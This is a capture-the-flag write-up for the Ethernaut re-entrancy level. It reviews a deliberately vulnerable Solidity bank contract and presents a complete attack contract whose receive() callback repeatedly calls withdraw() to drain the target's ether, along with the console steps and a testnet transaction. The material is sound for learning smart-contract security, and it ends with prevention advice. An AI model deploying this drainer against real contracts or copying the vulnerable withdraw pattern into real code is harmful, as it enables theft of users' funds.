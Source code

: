 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel10.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
Challenge's message.

>The goal of this level is for you to steal all the funds from the contract.Things that might help:
Untrusted contracts can execute code where you least expect it.
Fallback methods
Throw/revert bubbling
Sometimes the best way to attack a contract is with another contract.

We have a basic smart contract that performs the banking function. The first thing we look at is it uses the SafeMath library for the type of uint256 variables because of prevents Integer Underflow vulnerability. Also, it has a defined public mapping named **balances** to document the address's balances in the contract. After that, there is **donate()** function to increase the address's balance. And then, we can learn someone's balance with the help of **balanceOf()** method. And finally, we have **withdraw()** function to withdraw the amount from our balance. 

However, there is something in the crash. We will talk about the next part :> In the end of the code, there is a candy. Usually, **receive()** functions are used to get ether for the contract with the low-level contract interaction. In this case, it is left blank. Why?

# Subverting

When we look at the target code from the hacker's perspective, we can clearly show in the withdraw function; the contract updated the balance after sending the amount to the user's address. What's wrong? In the design pattern, devs might think that contract always sends the amount to the user balance only once. Hereby, updating works correctly. But, in the end of the code a **receive()** function which is payable and left bank. It helps us to low level interaction to our attack contract when we want get some ether more. What is more, if we abuse this case to send ether to our address more than once, what will happen?

The entire amount in the contract will be transferred to the attacker's account. Brainful, isn't it? I explained this vulnerability so detail in my [reentrancy repository](https://github.com/wasny0ps/Reentrancy). I strongly recommend this article to understand reentrancy more clearly and learn how to prevent this vulnerability. Let's look our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IReentrancy{

    function donate(address _to) external payable;
    function withdraw(uint _amount) external;

}

contract Attack{

    IReentrancy target;

    constructor(address  _target) {
        target = IReentrancy(_target);
    }

    function attack() external payable{
        target.donate{value: msg.value}(address(this));
        target.withdraw(msg.value);
    }

    receive()external payable{
        if(address(target).balance >= 0.001 ether){
            target.withdraw(0.001 ether);
        }
    }
}
```
Before explain our attack contract, check target contract's balance.
```shell
await getBalance(contract.address)
'0.001'
```
We learned entire amouunt in target contract as **0.001 ether**. Let's convert it to wei.

```shell
await web3.utils.toWei('0.001','ether')
1000000000000000
```
After converting it to wei, it's time to explain the attack contract. First of all, this contract is a little bit different than other attack contracts. Because we used the **interface()** method to interact with other contracts easily. Also, before you use the interface, you must add into the interface method the same functions which are in the contract that we want to interact with. Otherwise, you will get an error. That's why, we use an interface to interact with the target contract. After that, get an instance of the target contract with enter the target contract's address in the constructor. 

In the **attack()** contract, it calls donate function and adds some value to our address's balance. In the next step, get ether back from the target contract. When the target contract sends **msg.value** to our attack contract, our **receive()** function welcomes the transaction. And then it calls **withdraw()** function again and again until target's balance less equal than 0.001 ether. While this process, target contract won't be updated the new balance. Thus, we get all money from the target contract. 🤑 

Let's bum out. Deploy the attack contract.

<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/deploy.png">

Call attack function with sending 1000000000000000 wei.

<img width="200" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/attack.png">

And [show our hack](https://sepolia.etherscan.io/tx/0xdbaaf42d197de637ed949abc2580b89086e65c34d8135b64f1f2634816cb34fb)!

<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/result.png">

Challenge's message:
>In order to prevent re-entrancy attacks when moving funds out of your contract, use the Checks-Effects-Interactions pattern being aware that call will only return false without interrupting the execution flow. Solutions such as ReentrancyGuard or PullPayment can also be used. transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork Source 1 Source 2.
Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.
Re-entrancy is a common attack. You should always be prepared for it!

**_by wasny0ps_**

